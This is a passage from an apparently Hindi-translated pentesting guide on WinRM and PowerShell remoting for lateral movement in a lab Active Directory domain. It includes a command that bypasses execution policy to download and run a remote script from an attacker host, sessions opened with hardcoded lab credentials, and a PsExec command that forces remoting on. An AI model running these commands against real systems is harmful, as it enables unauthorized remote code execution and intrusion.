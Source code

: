 ```powershell
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```
### Get a PS session

इंटरएक्टिव PowerShell शेल प्राप्त करने के लिए `Enter-PSSession` का उपयोग करें:
```powershell
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

# Enter
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
## Bypass proxy
Enter-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
# Save session in var
$sess = New-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
## Background current PS session
Exit-PSSession # This will leave it in background if it's inside an env var (New-PSSession...)
```
![](<../.gitbook/assets/image (1009).png>)

**सत्र "victim" के अंदर एक नए प्रक्रिया (wsmprovhost) में चलेगा**

### **WinRM को खोलने के लिए मजबूर करना**

PS Remoting और WinRM का उपयोग करने के लिए लेकिन कंप्यूटर कॉन्फ़िगर नहीं है, आप इसे सक्षम कर सकते हैं:
```powershell
.\PsExec.exe \\computername -u domain\username -p password -h -d powershell.exe "enable-psremoting -force"
```
### Saving and Restoring sessions
